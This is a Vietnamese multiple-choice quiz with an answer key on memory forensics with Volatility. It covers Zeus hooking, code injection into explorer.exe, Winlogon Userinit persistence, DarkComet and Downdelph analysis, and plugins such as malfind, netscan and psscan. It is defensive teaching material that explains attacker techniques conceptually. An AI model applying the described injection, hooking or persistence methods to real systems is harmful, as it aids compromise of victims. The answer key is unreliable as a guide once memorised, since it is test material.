??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Code injection giúp mã độc: (1) ẩn dưới danh nghĩa tiến trình hợp lệ, (2) kế thừa quyền và ngữ cảnh của tiến trình đó, (3) qua mặt các giải pháp whitelist dựa trên tên tiến trình. Ngoài ra, Zeus dùng injection vào trình duyệt để hook API mạng và đánh cắp thông tin đăng nhập.

---

**Câu 20.** Zeus bot hook `HttpSendRequestA` nhằm mục đích gì?

- A. Chặn toàn bộ kết nối HTTP của máy nạn nhân
- B. Chuyển hướng HTTP request đến C2 server
- C. Đọc và có thể sửa nội dung HTTP request (như form data chứa thông tin đăng nhập) trước khi gửi đi — kỹ thuật Man-in-the-Browser
- D. Nén dữ liệu HTTP để tiết kiệm băng thông

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Zeus là banking trojan nổi tiếng. Bằng cách hook `HttpSendRequestA`, Zeus có thể chặn và đọc tất cả HTTP request từ trình duyệt — bao gồm form đăng nhập ngân hàng, thông tin thẻ tín dụng — trước khi dữ liệu được mã hóa và gửi đi. Đây là kỹ thuật Man-in-the-Browser.

---

**Câu 21.** API Hooking kiểu Inline/Trampoline hoạt động như thế nào?

- A. Ghi đè toàn bộ hàm API bằng code mới
- B. Chèn lệnh `JMP` vào vài byte đầu của hàm API, chuyển hướng thực thi đến hook function, sau đó hook function có thể gọi lại hàm gốc
- C. Thay thế con trỏ hàm trong Import Address Table
- D. Tạo một DLL mới chứa hàm trùng tên

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Inline hook (trampoline) là kỹ thuật phổ biến nhất: ghi đè 5 byte đầu của hàm API bằng lệnh `JMP <hook_address>`. Khi ứng dụng gọi hàm đó, thực thi nhảy đến hook code của mã độc. Hook code xử lý xong có thể thực thi phần code gốc đã được sao chép ra (trampoline) để không làm vỡ chức năng ban đầu.

---

**Câu 22.** Sau khi dump tiến trình với `procdump`, bước tiếp theo hợp lý nhất là?

- A. Xóa tiến trình khỏi bộ nhớ
- B. Quét file dump với VirusTotal hoặc sandbox để xác nhận đây có phải mã độc không
- C. Ngay lập tức tắt máy bị nhiễm
- D. Cài lại Windows

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Sau khi dump executable từ bộ nhớ, điều tra viên thường tính hash (MD5/SHA256) và upload lên VirusTotal để kiểm tra, hoặc gửi vào sandbox để phân tích hành vi động. Đây là bước xác nhận quan trọng trong quá trình incident response.

---

**Câu 23.** Trong Volatility, `vaddump` khác `procdump` như thế nào?

- A. Không có sự khác biệt
- B. `procdump` dump toàn bộ executable của tiến trình, còn `vaddump` dump một vùng địa chỉ ảo (VAD) cụ thể trong bộ nhớ tiến trình
- C. `vaddump` nhanh hơn `procdump`
- D. `procdump` chỉ dùng cho 32-bit, `vaddump` cho 64-bit

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `procdump` dump executable image của tiến trình (file PE). `vaddump` dump một vùng địa chỉ cụ thể — hữu ích khi cần extract code đã được inject vào tiến trình (không phải executable chính) như trong Demo 3 khi dump vùng nhớ `0x4a80000` trong `explorer.exe`.

---

**Câu 24.** Kỹ thuật `dumpregistry` trong Volatility làm gì?

- A. Xóa tất cả registry key độc hại
- B. Dump các registry hive từ bộ nhớ ra file, sau đó có thể dùng công cụ registry viewer để phân tích
- C. Giám sát sự thay đổi registry theo thời gian thực
- D. Liệt kê tất cả registry key được tạo bởi tiến trình cụ thể

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `dumpregistry` trích xuất registry hive (SYSTEM, SOFTWARE, NTUSER.DAT...) từ bộ nhớ ra file. Sau đó dùng `strings` hoặc công cụ như Registry Explorer để tìm kiếm persistence mechanism, cấu hình mã độc, IoC.

---

**Câu 25.** Trong Demo 1, lệnh PING được dùng để làm gì trong chuỗi lệnh của cmd.exe?

- A. Kiểm tra kết nối mạng đến máy chủ C2
- B. Tạo độ trễ thời gian (~15 giây) bằng cách ping localhost 15 lần, để đảm bảo file được tải xong trước khi thực thi
- C. Đánh lạc hướng hệ thống IDS/IPS
- D. Xác định địa chỉ IP của máy nạn nhân

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `PING -n 15 127.0.0.1 >nul` — ping localhost 15 lần (mỗi lần ~1 giây) và loại bỏ output. Đây là kỹ thuật tạo delay đơn giản không cần `sleep` command, đảm bảo file tải về và ghi xong trước khi câu lệnh tiếp theo thực thi nó.

---

**Câu 26.** Công cụ nào KHÔNG phải là công cụ thu thập memory image từ máy vật lý?

- A. DumpIt (Comae Memory Toolkit)
- B. WinPmem
- C. FTK Imager
- D. Wireshark

??? info "Đáp án & Giải thích"
    **Đáp án: D**
    
    Wireshark là công cụ bắt và phân tích gói tin mạng (network packet capture), không dùng để thu thập memory image. Các công cụ còn lại (DumpIt, WinPmem, FTK Imager, Belkasoft RAM Capturer, Surge Collect) đều là công cụ memory acquisition.

---

**Câu 27.** Khi phân tích VM, cách đơn giản nhất để có memory image là gì?

- A. Cài agent vào VM và chạy DumpIt
- B. Suspend VM — file `.vmem` sẽ chứa toàn bộ nội dung RAM của VM tại thời điểm đó
- C. Chụp snapshot VM
- D. Kết nối debugger từ xa vào VM

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi suspend (tạm dừng) một VM trong VMware, hypervisor lưu toàn bộ trạng thái RAM vào file `.vmem`. File này có thể phân tích trực tiếp bằng Volatility mà không cần cài thêm agent.

---

**Câu 28.** Downdelph malware thuộc nhóm threat actor nào theo kết quả phân tích?

- A. Lazarus Group (APT38)
- B. APT29 (Cozy Bear)
- C. Sednit/Fancy Bear (APT28) — được nhận dạng bởi ESET-NOD32 là `Win32/Sednit`
- D. APT41

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    ESET-NOD32 nhận dạng DLL dump là `Win32/Sednit.BA`. Sednit là tên gọi của Fancy Bear (APT28), nhóm tin tặc được cho là liên kết với tình báo quân sự Nga (GRU). Downdelph là một trong các công cụ của nhóm này.

---

**Câu 29.** Darkcomet là loại mã độc thuộc dạng nào?

- A. Ransomware
- B. Keylogger
- C. Remote Access Trojan (RAT)
- D. Bootkit

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Darkcomet là RAT (Remote Access Trojan) — cho phép kẻ tấn công điều khiển máy nạn nhân từ xa. VirusTotal kết quả trong slide ghi `Backdoor.Win32.DarkKomet` (Kaspersky). RAT thường có khả năng chụp màn hình, keylog, truy cập webcam, upload/download file, thực thi lệnh từ xa.

---

**Câu 30.** Trong bộ nhớ tiến trình, `PAGE_EXECUTE_READWRITE` là dấu hiệu đáng ngờ vì sao?

- A. Vì vùng nhớ đó quá lớn
- B. Vì vùng nhớ bình thường chỉ cần một trong hai quyền: ghi (data) hoặc thực thi (code) — không cần cả hai cùng lúc; việc có cả hai thường chỉ xảy ra khi inject code vào bộ nhớ
- C. Vì Windows không cho phép permission này
- D. Vì vùng nhớ đó không được ánh xạ từ file

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Nguyên tắc W^X (Write XOR Execute): vùng nhớ hợp lệ thường là ghi được nhưng không thực thi được (data segment) hoặc thực thi được nhưng không ghi được (code segment). `PAGE_EXECUTE_READWRITE` vi phạm nguyên tắc này và thường là dấu hiệu của shellcode injection hoặc unpacking.

---

**Câu 31.** Plugin `netscan` khác `connections`/`connscan` của Volatility ở điểm nào?

- A. `netscan` nhanh hơn
- B. `netscan` hỗ trợ cả TCP và UDP, cả IPv4 và IPv6, và hoạt động trên nhiều phiên bản Windows hơn (bao gồm Windows Vista trở lên)
- C. `netscan` chỉ hiển thị kết nối đang mở
- D. `netscan` cần quyền administrator

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `connections` và `connscan` là các plugin cũ hơn cho Windows XP. `netscan` là plugin hiện đại hơn, hỗ trợ cả TCP/UDP, IPv4/IPv6, và hoạt động tốt trên Windows Vista/7/8/10. Nó tìm network structures trong bộ nhớ thay vì chỉ dựa vào danh sách đã biết.

---

**Câu 32.** Khi phân tích kết nối mạng bằng `netscan`, kết nối có trạng thái `CLOSED` vẫn có giá trị điều tra vì sao?

- A. Vì kết nối CLOSED vẫn đang truyền dữ liệu
- B. Vì dù kết nối đã đóng, cấu trúc dữ liệu vẫn còn trong bộ nhớ và tiết lộ IP/cổng C2, tiến trình thực hiện kết nối, và thời gian kết nối
- C. Vì kết nối CLOSED sẽ tự động mở lại
- D. Kết nối CLOSED không có giá trị điều tra

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Memory forensics có thể tìm thấy network socket structures ngay cả khi kết nối đã đóng — miễn là bộ nhớ chưa bị ghi đè. Trong Demo 2, kết nối CLOSED đến `104.171.117.216:80` vẫn tiết lộ C2 IP dù kết nối không còn hoạt động.

---

**Câu 33.** Trong quá trình incident response, tại sao cần ưu tiên thu thập memory image TRƯỚC KHI làm các việc khác?

- A. Vì memory image cần nhiều dung lượng nhất
- B. Vì RAM là volatile — khi tắt máy hoặc tiến trình kết thúc, toàn bộ dữ liệu trong RAM sẽ mất vĩnh viễn
- C. Vì Volatility chỉ phân tích được live memory
- D. Vì thu thập memory image là dễ nhất

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Đây là nguyên tắc cơ bản của **Order of Volatility** (RFC 3227): thu thập dữ liệu theo thứ tự từ volatile nhất đến ít volatile nhất. RAM đứng đầu danh sách — khi tắt nguồn, toàn bộ bằng chứng trong RAM mất hết. Bằng chứng trên đĩa, log, backup ổn định hơn nên thu thập sau.

---

**Câu 34.** `dlldump` plugin của Volatility dùng để làm gì?

- A. Liệt kê DLL trong tiến trình
- B. Xóa DLL độc hại khỏi bộ nhớ
- C. Trích xuất (dump) một DLL cụ thể từ bộ nhớ tiến trình ra file để phân tích tiếp
- D. So sánh DLL trên đĩa với DLL trong bộ nhớ

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `dlldump` dùng để extract DLL từ bộ nhớ tiến trình ra file. Trong Demo 2, `apisvcd.dll` được dump ra và quét VirusTotal. Đây là bước quan trọng để phân tích tĩnh mã độc: disassembly, string extraction, kiểm tra import/export table.

---

**Câu 35.** Kỹ thuật tấn công nào trong bài học liên quan đến việc mã độc thêm chính nó vào giá trị `Userinit` của registry?

- A. Process injection
- B. DLL hijacking
- C. Registry persistence / Winlogon persistence — mã độc sẽ được thực thi mỗi khi user đăng nhập
- D. UAC bypass

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` chứa danh sách các chương trình `winlogon.exe` sẽ khởi chạy sau khi xác thực đăng nhập thành công. Mặc định là `userinit.exe`. Mã độc thêm chính mình vào đây để đảm bảo persistence.

---

**Câu 36.** Khi điều tra, điều gì khiến `C:\system32\winlogon.exe` khác với `C:\Windows\system32\winlogon.exe`?

- A. Không có sự khác biệt, đây là alias của nhau
- B. `C:\system32\` không phải đường dẫn hệ thống chuẩn của Windows — thư mục chuẩn là `C:\Windows\system32\`; đường dẫn khác thường là dấu hiệu mã độc đang masquerade
- C. `C:\system32\` là đường dẫn cho ứng dụng 64-bit
- D. `C:\system32\` là shortcut đến `C:\Windows\system32\`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Trên Windows chuẩn, thư mục hệ thống là `C:\Windows\System32\` (hoặc `%SystemRoot%\System32\`). Mã độc thường tạo thư mục giả như `C:\system32\` để chứa file giả mạo tiến trình hệ thống. Đây là kỹ thuật dễ bị bỏ qua nếu không kiểm tra kỹ đường dẫn.

---

**Câu 37.** Trong context của Memory Forensics, "artifact" là gì?

- A. Lỗi trong quá trình dump memory
- B. Bằng chứng kỹ thuật số có giá trị pháp lý thu được từ phân tích bộ nhớ như tiến trình, kết nối mạng, DLL, chuỗi ký tự, key mã hóa...
- C. File log của hệ thống
- D. Phiên bản cũ của phần mềm

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Trong pháp chứng số, "artifact" là bất kỳ dữ liệu nào có giá trị điều tra. Từ memory dump, điều tra viên có thể trích xuất nhiều loại artifact: danh sách tiến trình, kết nối mạng, DLL, chuỗi ký tự (URL, IP, đường dẫn), key mã hóa, mật khẩu trong plaintext, và nhiều hơn nữa.

---

**Câu 38.** Trong Demo 3, tại sao `winlogon.exe` (PID 460) lại là cha của `winlogon.exe` (PID 1516)?

- A. Đây là hành vi bình thường khi Windows khởi động
- B. Winlogon hợp lệ (460) đã bị hijack persistence — registry Userinit entry buộc nó thực thi mã độc (`winlogon.exe` giả) như một tiến trình con khi user đăng nhập
- C. Hệ thống cần hai tiến trình winlogon để hoạt động
- D. PID 1516 là phiên bản cập nhật của winlogon

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Registry key `Winlogon\Userinit` bị sửa để thêm `C:\system32\winlogon.exe`. Khi user đăng nhập, `winlogon.exe` hợp lệ (460) chạy `userinit.exe` theo luồng chuẩn và đồng thời cũng chạy `C:\system32\winlogon.exe` (mã độc) theo registry entry bị sửa — nên mã độc trở thành tiến trình con của winlogon hợp lệ.

---

**Câu 39.** Plugin `apihooks` của Volatility phát hiện loại hook nào?

- A. Chỉ kernel-level hooks
- B. Chỉ usermode hooks
- C. Cả usermode (Inline/Trampoline, IAT hooks) và kernel-mode hooks (SSDT hooks, IDT hooks)
- D. Chỉ IAT hooks

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `apihooks` plugin phát hiện nhiều loại hook: Inline/Trampoline hook (ghi đè đầu hàm), IAT hook (sửa Import Address Table), EAT hook (Export Address Table), SSDT hook (System Service Descriptor Table — kernel level), và IDT hook. Trong Demo 4, Zeus dùng Inline hook trong usermode.

---

**Câu 40.** Lý do mã độc thường inject vào `explorer.exe` thay vì tiến trình khác là?

- A. Vì `explorer.exe` có nhiều bộ nhớ nhất
- B. Vì `explorer.exe` luôn chạy khi user đăng nhập, có nhiều quyền, và được tin tưởng bởi nhiều giải pháp bảo mật — inject vào đây giúp mã độc tồn tại lâu dài và ẩn mình
- C. Vì `explorer.exe` dễ inject nhất về mặt kỹ thuật
- D. Vì `explorer.exe` có kết nối internet sẵn

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `explorer.exe` là mục tiêu inject phổ biến vì: (1) luôn chạy khi user đăng nhập, (2) có quyền truy cập UI và filesystem, (3) được whitelist bởi nhiều AV/EDR, (4) việc inject vào đây cho phép mã độc "chia sẻ" danh tính của tiến trình hợp lệ này. Zeus và Darkcomet đều inject vào `explorer.exe`.

---

**Câu 41.** Khi tìm thấy một DLL độc hại trong `AppData\Roaming`, điều đó có ý nghĩa gì về mặt kỹ thuật?

- A. DLL đó là component hệ thống được cài đặt sai chỗ
- B. Thư mục `AppData\Roaming` không cần quyền administrator để ghi — mã độc có thể cài đặt DLL tại đây mà không cần leo thang đặc quyền, đồng thời né được giám sát trên `System32`
- C. DLL đó sẽ bị Windows tự xóa sau khi khởi động lại
- D. DLL đó chỉ chạy khi user đang online

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `%APPDATA%` (AppData\Roaming) là thư mục user có toàn quyền ghi mà không cần UAC hay quyền admin. Đây là nơi mã độc thường lưu payload để tránh phải leo thang đặc quyền. Ngoài ra, nhiều công cụ bảo mật tập trung giám sát `System32` và `Program Files` hơn là `AppData`.

---

**Câu 42.** Trong các demo, `rundll32.exe` bị lợi dụng như thế nào?

- A. Bị thay thế bởi file mã độc cùng tên
- B. Bị dùng để load và thực thi DLL độc hại (`apisvcd.dll`) — vì `rundll32.exe` là công cụ hệ thống hợp lệ của Windows dùng để thực thi hàm export từ DLL
- C. Bị inject shellcode vào bộ nhớ của nó
- D. Bị hook để chuyển hướng tất cả lời gọi DLL

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `rundll32.exe` là công cụ Windows dùng để chạy hàm từ DLL: `rundll32.exe <DLL_path>,<FunctionName>`. Mã độc Downdelph lợi dụng điều này: thay vì tạo tiến trình mới từ file EXE (dễ phát hiện), nó load DLL độc hại qua `rundll32.exe` — một tiến trình hệ thống hợp lệ ít bị nghi ngờ hơn.

---

**Câu 43.** Trong Memory Forensics, "profile" trong Volatility có nghĩa là gì?

- A. Thông tin về user đang đăng nhập
- B. Tập hợp các cấu trúc dữ liệu (data structures), offsets, và symbols đặc thù cho phiên bản và kiến trúc cụ thể của hệ điều hành — Volatility cần để parse đúng memory dump
- C. Cấu hình của công cụ Volatility
- D. Thông tin phần cứng của máy bị phân tích

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Mỗi phiên bản Windows có cấu trúc dữ liệu kernel khác nhau (ví dụ `EPROCESS`, `ETHREAD`). Profile định nghĩa offsets và kích thước của các cấu trúc này cho từng phiên bản cụ thể (VD: `Win7SP1x86`, `Win10x86_17134`). Sai profile → Volatility parse sai toàn bộ dữ liệu.

---

**Câu 44.** Điểm khác biệt giữa `pslist` và `psscan` trong Volatility là gì?

- A. `pslist` nhanh hơn `psscan`
- B. `pslist` đi qua linked list của EPROCESS (dễ bị rootkit ẩn), còn `psscan` scan toàn bộ physical memory tìm EPROCESS structure (khó bị ẩn hơn)
- C. `psscan` chỉ tìm tiến trình đã kết thúc
- D. `pslist` hiển thị nhiều thông tin hơn `psscan`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Rootkit có thể ẩn tiến trình bằng cách unlink khỏi EPROCESS linked list — `pslist` sẽ không thấy tiến trình đó. `psscan` dùng kỹ thuật pool tag scanning, quét toàn bộ memory tìm signature của EPROCESS object — khó bị qua mặt hơn. Dùng cả hai và so sánh kết quả để phát hiện hidden process.

---

**Câu 45.** Trong kịch bản Demo 1, tại sao mã độc được tải về `%TEMP%` thay vì thư mục khác?

- A. Vì `%TEMP%` có nhiều dung lượng nhất
- B. Vì `%TEMP%` là thư mục user có quyền ghi mà không cần leo thang đặc quyền, và một số AV ít kiểm tra thư mục này hơn `System32` hay `Program Files`
- C. Vì `%TEMP%` tự động thực thi file EXE
- D. Vì file trong `%TEMP%` được mã hóa

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `%TEMP%` (thường là `C:\Users\<user>\AppData\Local\Temp\`) là thư mục mà mọi user có quyền ghi hoàn toàn. Không cần UAC, không cần quyền admin. Nhiều mã độc drop payload về `%TEMP%` vì lý do này, mặc dù ngày nay nhiều EDR đã tăng cường giám sát thư mục này.

---

**Câu 46.** Sau khi phân tích memory, IoC (Indicator of Compromise) nào là quan trọng nhất cần ghi lại?

- A. Chỉ cần ghi lại tên file mã độc
- B. IP/domain C2, URL tải payload, hash của mã độc, đường dẫn file, registry key persistence, tên tiến trình và PID, thời gian hoạt động
- C. Chỉ cần ghi lại địa chỉ IP của C2
- D. Chỉ cần ghi lại thời gian máy bị nhiễm

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    IoC đầy đủ giúp: (1) chia sẻ threat intelligence với cộng đồng, (2) tìm các máy khác bị nhiễm trong tổ chức, (3) xây dựng detection rule cho SIEM/EDR. Cần thu thập càng nhiều IoC càng tốt: network IoC (IP, domain, URL), file IoC (hash, path, tên), registry IoC, process IoC.

---

**Câu 47.** Trong Volatility, flag `-p` (hoặc `--pid`) được dùng để làm gì?

- A. Chỉ định đường dẫn output
- B. Lọc kết quả theo Process ID cụ thể, thay vì phân tích tất cả tiến trình
- C. Chỉ định physical address
- D. Chạy plugin ở chế độ parallel

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `-p <PID>` (hoặc `--pid=<PID>`) giới hạn phân tích chỉ cho tiến trình có PID tương ứng. Rất hữu ích khi đã xác định được tiến trình đáng ngờ và muốn đào sâu vào nó (xem DLL, dump memory, xem handles...) mà không cần xử lý tất cả tiến trình.

---

**Câu 48.** Trong tất cả 3 demo, điểm chung nào trong phương pháp phân tích?

- A. Tất cả đều bắt đầu từ phân tích registry
- B. Tất cả đều bắt đầu từ một cảnh báo/nghi ngờ ban đầu → liệt kê tiến trình/kết nối mạng → xác định tiến trình đáng ngờ → đào sâu (cmdline, dlllist, malfind) → dump và xác minh
- C. Tất cả đều dùng `malfind` là bước đầu tiên
- D. Tất cả đều bắt đầu từ phân tích kết nối mạng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Quy trình chung của Memory Forensics: (1) Nhận cảnh báo/nghi ngờ → (2) Xem toàn cảnh (pslist, netscan) → (3) Tìm điểm bất thường → (4) Đào sâu vào đối tượng nghi ngờ (cmdline, dlllist, handles, malfind) → (5) Dump và xác minh (VirusTotal, sandbox) → (6) Tìm persistence (registry) → (7) Tìm lateral movement/injection.

---

**Câu 49.** Volatility được viết bằng ngôn ngữ lập trình nào và có thể chạy trên hệ điều hành nào?

- A. C++, chỉ chạy trên Windows
- B. Python, chạy trên Windows, macOS và Linux
- C. Java, chạy trên mọi nền tảng có JVM
- D. Go, chỉ chạy trên Linux

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Volatility là framework mã nguồn mở viết bằng Python. Chạy được trên Windows, macOS và Linux. Đây là một trong những lý do nó phổ biến — điều tra viên không cần hệ điều hành đặc biệt để phân tích memory dump từ bất kỳ hệ thống nào.

---

**Câu 50.** Kết luận nào ĐÚNG về Memory Forensics trong incident response?

- A. Memory Forensics có thể thay thế hoàn toàn phân tích trên đĩa
- B. Memory Forensics là kỹ thuật bổ sung mạnh mẽ giúp phát hiện fileless malware, hiểu kỹ thuật tấn công (injection, hooking, persistence), và thu thập IoC mà phân tích đĩa không thể cung cấp
- C. Memory Forensics chỉ hữu ích khi mã độc đang chạy tại thời điểm dump
- D. Memory Forensics không phát hiện được các kỹ thuật tấn công nâng cao

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Memory Forensics và disk forensics bổ sung cho nhau. Memory cho thấy "what's happening right now": tiến trình đang chạy, kết nối đang mở, code đã inject, hook đang hoạt động, key mã hóa đang dùng. Disk forensics cho thấy persistence, file đã tải, log lâu dài. Kết hợp cả hai mang lại bức tranh toàn diện nhất.

---

**Câu 51.** Trong Demo 2, tại sao `apisvcd.dll` được coi là bất thường ngay cả khi chưa biết nội dung của nó?

- A. Vì tên DLL quá dài
- B. Vì DLL hệ thống hợp lệ không bao giờ nằm trong `AppData\Roaming`, và `apisvcd.dll` không phải tên DLL Windows chuẩn
- C. Vì DLL có kích thước quá lớn
- D. Vì DLL được load sau các DLL khác

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Hai dấu hiệu bất thường không cần xem nội dung: (1) Đường dẫn `AppData\Roaming` — DLL hệ thống Windows luôn ở `System32`, `SysWOW64`, hoặc thư mục cài đặt ứng dụng hợp lệ; (2) `apisvcd.dll` không thuộc danh sách DLL Windows đã biết. Bất kỳ DLL không xác định trong `AppData` đều cần điều tra ngay.

---

**Câu 52.** Tại sao cần dùng `psscan --output=dot` để xuất dot format trong Demo 1?

- A. Để tạo file nhỏ hơn
- B. Để tạo file có thể render thành đồ thị quan hệ cha-con tiến trình bằng công cụ như Graphviz, giúp visualize chuỗi tấn công dễ hiểu hơn
- C. Để export dữ liệu sang Excel
- D. Dot format chứa nhiều thông tin hơn text format

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Dot format là ngôn ngữ mô tả đồ thị của Graphviz. Khi `psscan` xuất ra dot format, ta có thể dùng `dot` command hoặc công cụ trực quan hóa để render thành sơ đồ hình cây/đồ thị quan hệ tiến trình. Trong phân tích mã độc, việc visualize process tree giúp nhanh chóng nhận ra chuỗi lây nhiễm bất thường.